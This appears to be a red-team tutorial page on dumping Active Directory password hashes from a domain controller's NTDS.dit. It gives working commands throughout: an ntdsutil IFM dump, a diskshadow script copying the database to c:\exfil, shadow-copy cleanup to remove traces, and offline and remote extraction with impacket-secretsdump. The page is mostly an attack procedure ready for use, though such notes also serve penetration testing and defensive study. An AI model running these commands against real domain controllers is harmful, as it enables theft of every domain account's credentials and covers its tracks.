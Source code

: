 ```yaml
---
description: Dumping NTDS.dit with Active Directory users hashes
---
```


# Dumping Domain Controller Hashes Locally and Remotely

## No Credentials - ntdsutil

If you have no credentials, but you have access to the DC, it's possible to dump the ntds.dit using a lolbin ntdsutil.exe:

{% tabs %}
{% tab title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endtab %}
{% endtabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes offline with impacket:

{% tabs %}
{% tab title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/ntds-hashdump%20%281%29.png)

## No Credentials - diskshadow

On Windows Server 2008+, we can use diskshadow to grab the ntdis.dit.

Create a shadowdisk.exe script instructing to create a new shadow disk copy of the disk C \(where ntds.dit is located in our case\) and expose it as drive Z:\

{% code title="shadow.txt" %}
```erlang
set context persistent nowriters
set metadata c:\exfil\metadata.cab
add volume c: alias trophy
create
expose %someAlias% z:
```
{% endcode %}

...and now execute the following:

```erlang
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```

Below shows the ntds.dit got etracted and placed into our c:\exfil folder:

![](../../.gitbook/assets/image%20%28391%29.png)

Inside interactive diskshadow utility, clean up the shadow volume:

```text
diskshadow.exe
    > delete shadows volume trophy
    > reset
```

## With Credentials

If you have credentials for an account that can log on to the DC, it's possible to dump hashes from NTDS.dit remotely via RPC protocol with impacket:

```text
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```

![](../../.gitbook/assets/image%20%28176%29.png)

## References

{% embed url="https://adsecurity.org/?p=2362" caption="" %}

{% embed url="https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-\(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM\)/" caption="" %}

{% embed url="https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/" caption="" %}

